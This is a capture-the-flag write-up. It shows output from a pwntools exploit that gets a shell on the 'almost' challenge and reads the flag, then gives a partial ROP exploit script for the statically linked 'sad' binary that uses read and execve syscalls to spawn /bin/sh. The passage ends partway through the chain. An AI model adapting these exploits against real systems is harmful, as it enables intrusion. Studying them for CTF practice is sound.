 Running te exploit:-

```asm
0 [07:43:53] vagrant@oracle(oracle) pwn> python3 almost.py 
[+] Opening connection to jh2i.com on port 50017: Done
[*] Analyzing /home/vagrant/CTFs/hacktivity/pwn/almost
[*] Analyzing /home/vagrant/CTFs/hacktivity/pwn/libc6-i386_2.27-3ubuntu1.2_amd64.so
[*] puts@GOT:   0xf7d8b3d0
[*] Switching to interactive mode
Result:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBAAAAAAAAAA\x80��ﾭޏ���ccccccccccccccccccccccccccccccccccccccccc://BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBAAAAAAAAAA\x80��ﾭޏ���ccccccccccccccccccccccccccccccccccccccccc/ls
almost    almost.c  flag.txt
$ cat flag.txt
flag{my_code_was_almost_secure}$ 
$ 
[*] Interrupted
[*] Closed connection to jh2i.com port 50017
```

# sad 

This was a statically linked binary and it had a stack overflow vulnerability and since it was statically linked no ret2libc could be done, I chose the ROP way to do a `read` syscall to store `/bin/sh` in BSS address and then did a `execve`syscall. As it was statically linked binary, we had every needed gadget this made it simple to exploit:-


Exploit:-

```py
from roppy import *

p = remote("jh2i.com", 50002)

# flag{radically_statically_roppingly_vulnerable}


pop_rdi = p64(0x40187a)
syscall = p64(0x40eda4)
pop_rdx = p64(0x40177f)
pop_rsi = p64(0x407aae)
pop_rax = p64(0x43f8d7)
bss     = p64(0x4ae310)

payload = b"a"*264

# The read syscall
payload += pop_rdi   
payload += p64(0)
payload += pop_rsi
payload += bss
payload += pop_rdx
payload += p64(0x8)
payload += pop_rax
payload += p64(0x0)
payload += syscall

# The execve syscall payload: execve(bss, 0, 0)

payload += pop_rdi
payload += bss
payload += pop_rsi
```